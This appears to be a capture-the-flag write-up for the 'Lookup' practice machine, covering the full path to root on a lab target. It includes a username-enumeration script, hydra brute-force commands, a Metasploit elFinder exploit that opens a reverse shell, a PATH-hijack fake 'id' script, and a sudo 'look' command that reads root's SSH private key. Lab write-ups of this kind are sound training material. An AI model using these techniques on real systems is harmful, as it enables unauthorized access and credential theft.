 <img src="img/logo.png" height="450px" alt="Lookup Logo">

# Lookup 

<p align="center">
    <img src="img/banner.PNG" alt="Banner">
</p>

# Description

**Lookup** offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking. Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the power of scripting in penetration testing.

# Proof Of Concept 

Well as usual add your machine ip to **`/etc/hosts/`** and we can start hacking. 

Well we got login page as the index on `lookup.thm` , try to bypass with `admin:admin` but shows nothing, try with SQLi also give the same result. Try to find a subodomain or any available directory but none is shows a bright future ( well this is frustrated ).

so let's create python script to enumerate user

```
import requests

url = "http://lookup.thm/login.php"  
wordlist_file = "/home/amca/names.txt"  
method = "POST"                  
valid_response_indicator = "Wrong passwords."  

def enumerate_users(url, wordlist_file, method, valid_response_indicator):
    try:
        with open(wordlist_file, "r") as file:
            usernames = file.read().splitlines()

        print("[*] Starting enumeration...")
        for username in usernames:
            if method.upper() == "POST":
                response = requests.post(url, data={"username": username, "password": "pass"})
            elif method.upper() == "GET":
                response = requests.get(url, params={"username": username})
            else:
                print(f"[-] Unsupported HTTP method: {method}")
                return

            if valid_response_indicator not in response.text:
                print(f"[+] Found valid username: {username}")
            else:
                print(f"[-] Invalid username: {username}")

        print("[*] Enumeration completed.")
    except FileNotFoundError:
        print(f"[-] Wordlist file not found: {wordlist_file}")
    except requests.RequestException as e:
        print(f"[-] Error sending request: {e}")
    except Exception as e:
        print(f"[-] An unexpected error occurred: {e}")

if __name__ == "__main__":
    enumerate_users(url, wordlist_file, method, valid_response_indicator)
```

and we found what we looking for

```
[+] Found valid username: admin
[+] Found valid username: jose
```

Now we got the user, let's break into the website, power up hydra and start bruteforce with a username **`jose`**

```hydra -l jose -P /usr/share/wordlists/rockyou.txt -f -v http-post-form http://lookup.thm```

<img src="img/1.PNG">

and Voila, we got the credentials that we need

#

#### What is the user flag?

Now into the dashboard, we found a file that allow read only and a another credentials for another login (i guess :P)

I try to upload php file but it turns out error, so try to find info what is the dashboard really is and found that its `elFinder` version `2.1.47`

<img src="img/3.PNG">

the exploit is out and on `CVE-2019-9194` but im just gonna use metasploit :P 

<img src="https://media.tenor.com/hZBfkgGHGdsAAAAM/rimuru.gif" height="55">

power up msfconsole and search for elFinder 

<img src="img/4.PNG">

fill up the requirement and you shall get the shell

<img src="img/5.PNG">

```
set RHOSTS files.lookup.thm
set LHOST 10.8.58.21
set LPORT 4444 # Optional
```

now we got the shell under `/var/www/lookup.thm/files.lookup.thm/elFinder/php` directory the `user.txt` is on `/home/think` 

<img src="img/6.PNG">

fortunately we don't have access for that.

```
Explain : 

-rw------- can be represented numerically as 600. The 6 translates as rw for the user and the 0s translate as "no access" for group and world, respectively.
```

we have to think another way to get the user flag

# 

#### What is the root flag?

Inside the system, we have two additional users: **`think`** and **`root`**

did a research on opportunities to privilege escalation, found a file named `/usr/sbin/pwm` also this file own as root ( sigh* everything is root nowadays )

this is the binary that when we execute it the `id` command, and then extracts the username out of it, and then puts that username into “/home/[username]/.passwords” and tries to do something with it 

Let’s try to trick the program into executing a different `id` command, one that would result in the `think` username to be extracted from the output.

also add `/tmp` to our `$PATH` and create `/tmp/id` with this and add execute (x) permission to it
> chmod +x

```
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=(think)"
```

it'll goes like this and look like we found a wordlist 

<img src="img/7.PNG">

remember that it has open port of ssh, let's try bruteforce ssh login with the wordlists that given

```
hydra -l think -P pass-lookup-thm.txt ssh://[MACHINE_IP] -t 4
```

<img src="img/8.jpg">

connect to it, we can now go to another action

<img src="img/9.PNG">

**Think** can use the `look` binary as `sudo`, which is useful for reading files. [GTFObin](https://gtfobins.github.io/) come in handy on this situation.

<img src="img/look.PNG">

with the command provide we want to read file named `.id_rsa` on root directory to gain a root access to get both flag

```
LFILE=/root/.ssh/id_rsa

sudo look '' "$LFILE"
```

you'll then receive the content on file `.id_rsa`, save it and set the correct permission 

```
chmod 600 id_rsa
ssh -i id_rsa root@[MACHINE_IP]
```

and now **We Are Root !!**

<img src="img/flag.jpg">

# 

#### Conclusion

As a conclusion, it is a tough room the difficulty could be like easy > medium, overall its fun room. 

<img src="https://i.pinimg.com/originals/e8/f9/fe/e8f9feac456fc8e449e99afa56bb1752.gif">

# Happy Hacking
















